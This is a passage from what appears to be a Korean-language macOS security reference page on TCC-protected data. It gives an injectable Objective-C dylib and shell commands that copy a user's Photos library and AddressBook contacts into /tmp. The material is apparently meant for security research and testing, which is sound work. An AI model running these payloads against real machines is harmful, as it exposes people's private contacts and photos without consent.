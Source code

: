 {% tab title="Shell" %}
`$HOME/Pictures/Photos Library.photoslibrary`를 `/tmp/photos`로 복사합니다.
```bash
cp -r "$HOME/Pictures/Photos Library.photoslibrary" "/tmp/photos"
```
{% endtab %}
{% endtabs %}

### 연락처

* **권한**: `com.apple.security.personal-information.addressbook`
* **TCC**: `kTCCServiceAddressBook`

{% tabs %}
{% tab title="ObjetiveC" %}
`$HOME/Library/Application Support/AddressBook`를 `/tmp/contacts`로 복사합니다.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Application Support/AddressBook"];
NSString *tmpPhotosPath = @"/tmp/contacts";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
`$HOME/Library/Application Support/AddressBook`를 `/tmp/contacts`로 복사합니다.
```bash
cp -r "$HOME/Library/Application Support/AddressBook" "/tmp/contacts"
```
{% endtab %}
{% endtabs %}

